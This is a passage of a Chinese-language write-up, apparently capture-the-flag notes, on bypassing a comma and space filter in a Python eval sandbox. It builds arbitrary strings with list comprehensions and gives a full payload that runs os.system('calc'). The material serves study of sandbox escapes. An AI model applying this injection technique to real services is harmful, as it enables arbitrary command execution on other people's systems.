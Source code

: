 接受一个可迭代对象，里面是0-256的整数。返回一个bytes

![image-20230502235535653](../.gitbook/assets/image-20230502235535653.png)

但`range()`是固定顺序的，无法任意构造字符串

若能构造出 `[119, 104, 111, 97, 109, 105]` 这样的序列，通过 `bytes()` 得到 `whoami`

由于不能使用 `,`，所以不能直接写一个列表或者集合出来。

列表推导式 + if捞数据

```python
pay = bytes([
    j for i in range(6) for j in range(256)
    if i == 0 and j == 119 or i == 1 and j == 104
    or i == 2 and j == 111 or i == 3 and j == 97
    or i == 4 and j == 109 or i == 5 and j == 105
])
print(pay)   # b'whoami'
```

构造payload

```python
exp = '__import__("os").system("calc")'

print(f"eval(bytes([j for i in range({len(exp)}) for j in range(256) if " + " or ".join(
    [f"i=={i} and j=={ord(j)}" for i, j in enumerate(exp)]) + "]))")
```

```python
eval(bytes([j for i in range(31) for j in range(256) if i==0 and j==95 or i==1 and j==95 or i==2 and j==105 or i==3 and j==109 or i==4 and j==112 or i==5 and j==111 or i==6 and j==114 or i==7 and j==116 or i==8 and j==95 or i==9 and j==95 or i==10 and j==40 or i==11 and j==34 or i==12 and j==111 or i==13 and j==115 or i==14 and j==34 or i==15 and j==41 or i==16 and j==46 or i==17 and j==115 or i==18 and j==121 or i==19 and j==115 or i==20 and j==116 or i==21 and j==101 or i==22 and j==109 or i==23 and j==40 or i==24 and j==34 or i==25 and j==99 or i==26 and j==97 or i==27 and j==108 or i==28 and j==99 or i==29 and j==34 or i==30 and j==41]))
```

过滤空格可以使用`[]`
